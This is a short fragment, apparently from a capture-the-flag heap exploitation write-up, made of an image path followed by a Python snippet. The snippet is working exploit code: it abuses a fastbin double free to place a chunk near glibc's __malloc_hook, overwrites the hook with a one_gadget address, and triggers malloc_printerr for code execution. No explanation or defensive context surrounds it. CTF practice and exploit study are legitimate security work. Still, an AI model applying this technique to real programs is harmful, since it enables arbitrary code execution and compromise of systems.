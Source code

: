 ```python
free(2)
free(1)
add(0x60,p64(malloc_hook-0x23))
add(0x60)
add(0x60)
add(0x60,'a'*0x13 + p64(one))

free(0)
free(0) # malloc_print_err
```